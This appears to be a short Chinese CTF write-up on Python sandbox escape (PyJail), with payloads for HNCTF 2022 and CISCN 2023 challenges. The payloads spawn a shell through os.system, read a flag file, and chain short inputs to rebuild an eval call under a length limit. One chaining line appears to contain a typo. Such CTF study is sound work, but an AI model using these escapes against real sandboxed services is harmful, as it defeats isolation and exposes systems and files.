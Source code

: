 ```yaml
---
title: Python沙盒逃逸
date: 2023-10-21 13:32:11
tags: PyJail
mathjax: true
---
```


# Python沙盒逃逸

## [HNCTF 2022 Week1]python2 input(JAIL)

### 法一

payload1：

```python
__import__('os').system('sh')
```

### 法二

payload2：

```python
__builtins__.__import__('os').system('cat ./flag')
```

## [CISCN 2023 初赛]pyshell

>`-`：返回上一次运行语句的结果，可以进行字符串拼接。

输入长度不大于$7$。

### 法一

总payload：

```python
eval(open("/flag","r").read())
```

依次输入：

```python
"open"
_+'("/'
_+'fla'
_+'g"'
-+',"r'
_+'")'
_+'.'
_+'rea'
_+'d()'
eval(_)
```
